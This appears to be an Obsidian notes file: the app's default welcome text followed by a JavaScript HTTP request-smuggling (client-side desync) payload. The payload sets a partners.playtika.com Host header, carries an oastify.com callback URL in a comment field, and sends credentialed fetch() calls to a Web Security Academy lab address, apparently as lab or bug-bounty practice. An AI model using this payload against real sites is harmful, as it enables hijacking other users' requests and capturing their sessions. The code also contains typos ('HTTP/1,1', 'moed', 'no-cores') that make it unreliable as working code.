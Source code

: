 This is your new *vault*.

Make a note of something, [[create a link]], or try [the Importer](https://help.obsidian.md/Plugins/Importer)!

When you're ready, delete this note and make the vault your own.

```
smuggledRequest= [
"POST / HTTP/1.1",
"Host: partners.playtika.com",
"Connection: keep-alive",
"Content-Length: 157",
"",
"csrf=BtLJFAn0VnDd91R7M1lt6LEsJa8YHkcF&postId=4&name=asd&email=crummy_mockup@gmail.com&website=http://yeg6wpk2ywy45wjx5i0go9oii9o0ct0i.oastify.com&comment=asd",
].join("\r\n");

fetch("https://0a7900d1044d8d8783581eca00fc00d5.h1-web-security-academy.net/", {
	method: "POST",
	BODY: "get /Hopefully404 HTTP/1,1\r\nX-Ignore: X",
	credentials: "include",
	mode: "cors", 
	}).catch(() => {
		fetch("https://0a7900d1044d8d8783581eca00fc00d5.h1-web-security-academy.net/", 
			{
			moed: "no-cores",
			credentials: "include",
			}
		)
	})
```